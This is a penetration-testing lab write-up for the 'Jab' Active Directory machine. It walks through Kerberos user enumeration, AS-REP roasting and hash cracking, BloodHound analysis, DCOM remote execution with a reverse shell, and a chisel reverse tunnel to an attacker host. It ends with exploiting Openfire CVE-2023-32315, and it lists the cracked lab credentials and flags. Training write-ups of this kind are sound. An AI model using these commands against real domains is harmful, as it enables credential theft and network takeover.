 Jab - Active Directory Lab Exploitation Walkthrough
===================================================

This is a full exploitation walkthrough for the Jab Active Directory lab. The goal was to gain Domain Admin privileges through Kerberos user enumeration, AS-REP roasting, lateral movement using BloodHound, and remote code execution through Openfire (CVE-2023-32315).

Target Information
------------------
IP Address       : 10.10.11.4  
Domain           : jab.htb  
Domain Controller: dc01.jab.htb  
Key Services     : Kerberos, SMB, LDAP, XMPP/Openfire

Enumeration
-----------
Performed an initial Nmap scan:

nmap -sC -sV -oA nmap 10.10.11.4

Identified ports:
- 88, 389, 636, 445 (Kerberos, LDAP, SMB)
- 5222, 5269, 7070, 7443, 7777 (Openfire/XMPP)

Added to /etc/hosts:

10.10.11.4 jab.htb dc01.jab.htb

Kerberos User Enumeration
-------------------------
Used kerbrute to enumerate valid usernames:

kerbrute userenum --dc dc01.jab.htb -d jab.htb usernames.txt -o kerbrute.txt

AS-REP Roasting
---------------
impacket-GetNPUsers jab.htb/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast

Cracked hashes with hashcat:

hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force

Recovered credentials:
- jmontgomery : Midnight_121

XMPP Enumeration (Pidgin)
-------------------------
Logged into Openfire chat using Pidgin with cracked credentials. Discovered more users and credentials:

- svc_openfire : !@#$%^&*(1qazxsw)

SMB Access
----------
smbmap -u svc_openfire -p '!@#$%^&*(1qazxsw)' -H 10.10.11.4

Found limited access, but no critical files.

BloodHound & Lateral Movement
-----------------------------
Used bloodhound-python to enumerate AD relationships:

bloodhound-python -u svc_openfire -p '!@#$%^&*(1qazxsw)' -d jab.htb -dc dc01.jab.htb -c all -ns 10.10.11.4

Uploaded to BloodHound and found attack path via DCOM privileges.

Remote Code Execution via DCOM
------------------------------
Generated PowerShell payload and used DCOMExec from impacket:

impacket-dcomexec 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw)@dc01.jab.htb' '<powershell-reverse-shell>'

Started listener:

rlwrap nc -nlvp 6658

Captured User Flag:
58b27f9faaec3dfdb2a94dad6a1e2175

Pivot with Chisel
-----------------
Pivoted to access internal Openfire admin interface:

Attacker (listener):
chisel server -p 9999 --reverse

Victim:
chisel client <attacker-ip>:9999 R:9090:127.0.0.1:9090

Accessed Openfire admin at: http://127.0.0.1:9090

Exploitation - CVE-2023-32315
-----------------------------
Cloned exploit repo and uploaded plugin via Openfire admin panel:

git clone https://github.com/miko550/CVE-2023-32315.git  
cd CVE-2023-32315  
pip3 install -r requirements.txt  

Executed RCE and caught reverse shell:

rlwrap nc -nlvp 4444

Captured Root Flag:
8f826f76eb871e0566058e6580760e8e

Summary
-------
- User enum via Kerberos
- AS-REP roasting → credential cracking
- Pivoting through XMPP → BloodHound → DCOM
- Internal access to Openfire admin
- Remote code execution using CVE-2023-32315

Author
------
Farhanahmad Quraishi
